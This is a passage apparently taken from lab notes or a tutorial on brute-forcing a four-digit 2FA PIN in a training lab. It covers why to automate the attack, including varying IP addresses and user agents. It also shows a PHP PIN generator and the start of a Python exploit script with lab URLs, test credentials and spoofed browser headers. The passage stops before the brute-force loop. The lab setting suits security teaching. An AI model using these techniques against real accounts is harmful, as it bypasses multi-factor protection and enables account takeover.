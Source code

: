 #### **Consistency**
---
Automation avoids mistakes that might happen if you’re doing the same repetitive actions over and over again. It’s reliable.

#### **Recovering From Logouts**
---
If the application logs you out after a few failed attempts, the script can automatically log back in and keep trying. This saves you the hassle of doing it manually every time.

#### **Customization**
---
Manually creating an automation script for the attack offers more flexibility than using a single tool like ZAP or Burp Suite. You can customize your scripts to test specific scenarios, such as using different IP addresses or user agents or varying the timing between requests.

### Exploitation

The application hosted in [http://mfa.thm/labs/third](http://mfa.thm/labs/third) automatically logs out the user if they fail the 2FA challenge. For demonstration purposes, the application also generates a 4-digit PIN code every time the user logs in to the application.

```ad-note

**Note:** In real-life applications, the PIN code typically ranges from 0000 to 9999. We're only setting it to a lower value to save time brute-forcing it.
```

```php
function generateToken()
{
    $token = strval(rand(1250, 1350));

    $_SESSION['token'] = $token;
    return 'success';
}
```

Using the Python script below, save the script as **exploit.py** and run it in your terminal.

```python
import requests

# Define the URLs for the login, 2FA process, and dashboard
login_url = 'http://mfa.thm/labs/third/'
otp_url = 'http://mfa.thm/labs/third/mfa'
dashboard_url = 'http://mfa.thm/labs/third/dashboard'

# Define login credentials
credentials = {
    'email': 'thm@mail.thm',
    'password': 'test123'
}

# Define the headers to mimic a real browser
headers = {
    'User-Agent': 'Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5',
    'Accept-Encoding': 'gzip, deflate',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Origin': 'http://mfa.thm',
    'Connection': 'close',
    'Referer': 'http://mfa.thm/labs/third/mfa',
    'Upgrade-Insecure-Requests': '1'
```